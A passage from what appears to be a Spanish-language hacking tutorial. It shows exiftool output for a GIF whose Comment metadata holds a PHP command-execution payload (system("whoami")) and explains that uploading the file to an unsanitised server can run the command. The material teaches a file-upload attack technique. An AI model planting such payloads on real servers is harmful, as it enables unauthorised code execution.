 Resultado:

```bash
1 image files updated
```

Acción:
```bash
exiftool download.gif
```

Resultado:

```bash
ExifTool Version Number         : 12.57
File Name                       : download.gif
Directory                       : .
File Size                       : 460 kB
File Modification Date/Time     : 2025:06:09 17:58:47+02:00
File Access Date/Time           : 2025:06:09 17:58:47+02:00
File Inode Change Date/Time     : 2025:06:09 17:58:47+02:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 498
Image Height                    : 373
Has Color Map                   : Yes
Color Resolution Depth          : 8
Bits Per Pixel                  : 8
Background Color                : 0
Animation Iterations            : Infinite
Comment                         : <?php system("whoami"); ?>
Frame Count                     : 39
Duration                        : 3.90 s
Image Size                      : 498x373
Megapixels                      : 0.186
```

Explicación:  de este modo añadimos en los metadatos del archivo gif una ejecución de comandos en el apartado añadido `Comment`. Al subir el archivo a un servidor no sanitizado, en el endpoint donde se almacene podríamos ver en algún lugar de toda la información cifrada que muestra nuestra ejecución de comando

---
